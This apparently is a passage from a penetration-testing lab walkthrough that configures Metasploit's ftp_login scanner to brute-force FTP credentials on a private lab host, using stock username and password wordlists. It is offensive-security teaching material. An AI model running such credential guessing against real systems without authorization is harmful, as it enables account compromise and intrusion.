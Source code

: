 <pre> 2121/tcp open  ftp         ProFTPD 1.3.1</pre>
## ProFTP is not running a vulnerable version, but even so we could get some information about the users.

<pre>msf6 > search ftp_login

Matching Modules
================

   #  Name                             Disclosure Date  Rank    Check  Description
   -  ----                             ---------------  ----    -----  -----------
   0  auxiliary/scanner/ftp/ftp_login  .                normal  No     FTP Authentication Scanner


Interact with a module by name or index. For example info 0, use 0 or use auxiliary/scanner/ftp/ftp_login</pre>

<pre>msf6 > use 0</pre>
<pre>msf6 auxiliary(scanner/ftp/ftp_login) > show options</pre>

<pre>Module options (auxiliary/scanner/ftp/ftp_login):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   ANONYMOUS_LOGIN   false            yes       Attempt to login with a blank username and password
   BLANK_PASSWORDS   false            no        Try blank passwords for all users
   BRUTEFORCE_SPEED  5                yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS      false            no        Try each user/password couple stored in the current database
   DB_ALL_PASS       false            no        Add all passwords in the current database to the list
   DB_ALL_USERS      false            no        Add all users in the current database to the list
   DB_SKIP_EXISTING  none             no        Skip existing credentials stored in the current database (Accepted: none, user, user&realm)
   PASSWORD                           no        A specific password to authenticate with
   PASS_FILE                          no        File containing passwords, one per line
   Proxies                            no        A proxy chain of format type:host:port[,type:host:port][...]
   RECORD_GUEST      false            no        Record anonymous/guest logins to the database
   RHOSTS                             yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT             21               yes       The target port (TCP)
   STOP_ON_SUCCESS   false            yes       Stop guessing when a credential works for a host
   THREADS           1                yes       The number of concurrent threads (max one per host)
   USERNAME                           no        A specific username to authenticate as
   USERPASS_FILE                      no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS      false            no        Try the username as the password for all users
   USER_FILE                          no        File containing usernames, one per line
   VERBOSE           true             yes       Whether to print output for all attempts</pre>


<pre>msf6 auxiliary(scanner/ftp/ftp_login) > set blank_passwords true</pre>

<pre>msf6 auxiliary(scanner/ftp/ftp_login) > set rhosts 192.168.161.131</pre>

<pre>msf6 auxiliary(scanner/ftp/ftp_login) > set rport 2121</pre>

<pre>msf6 auxiliary(scanner/ftp/ftp_login) > set pass_file /usr/share/wordlists/metasploit/unix_passwords.txt</pre>

<pre>msf6 auxiliary(scanner/ftp/ftp_login) > set user_file /usr/share/wordlists/metasploit/unix_users.txt</pre>

<pre>msf6 auxiliary(scanner/ftp/ftp_login) > show options</pre>

<pre>Module options (auxiliary/scanner/ftp/ftp_login):

   Name              Current Setting                                     Required  Description
   ----              ---------------                                     --------  -----------
   ANONYMOUS_LOGIN   false                                               yes       Attempt to login with a blank username and password
   BLANK_PASSWORDS   true                                                no        Try blank passwords for all users
   BRUTEFORCE_SPEED  5                                                   yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS      false                                               no        Try each user/password couple stored in the current database
   DB_ALL_PASS       false                                               no        Add all passwords in the current database to the list
   DB_ALL_USERS      false                                               no        Add all users in the current database to the list
   DB_SKIP_EXISTING  none                                                no        Skip existing credentials stored in the current database (Accepted: none, user, user&realm)
   PASSWORD                                                              no        A specific password to authenticate with
   PASS_FILE         /usr/share/wordlists/metasploit/unix_passwords.txt  no        File containing passwords, one per line
   Proxies                                                               no        A proxy chain of format type:host:port[,type:host:port][...]
   RECORD_GUEST      false                                               no        Record anonymous/guest logins to the database
   RHOSTS            192.168.161.131                                     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT             2121                                                yes       The target port (TCP)
   STOP_ON_SUCCESS   false                                               yes       Stop guessing when a credential works for a host
   THREADS           1                                                   yes       The number of concurrent threads (max one per host)
   USERNAME                                                              no        A specific username to authenticate as
   USERPASS_FILE                                                         no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS      false                                               no        Try the username as the password for all users
   USER_FILE         /usr/share/wordlists/metasploit/unix_users.txt      no        File containing usernames, one per line
   VERBOSE           true                                                yes       Whether to print output for all attempts</pre>



<pre>msf6 auxiliary(scanner/ftp/ftp_login) > run</pre>




